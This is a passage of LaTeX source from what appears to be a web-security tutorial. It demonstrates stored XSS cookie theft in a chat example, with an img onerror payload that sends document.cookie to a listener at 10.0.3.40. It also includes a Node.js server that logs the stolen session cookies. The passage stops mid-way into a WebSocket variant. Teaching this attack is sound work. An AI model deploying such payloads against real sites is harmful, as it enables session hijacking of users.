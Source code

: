 	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy to reproduce.\newline
	
	The login page is the same seen before in example 1, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	The page includes the code of the previous chat example, the Javascript code is the same and even the Java server code.\newline
	
	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is something like:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not automatically give you the cookie, in fact the cookie is sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address. Using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoids the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
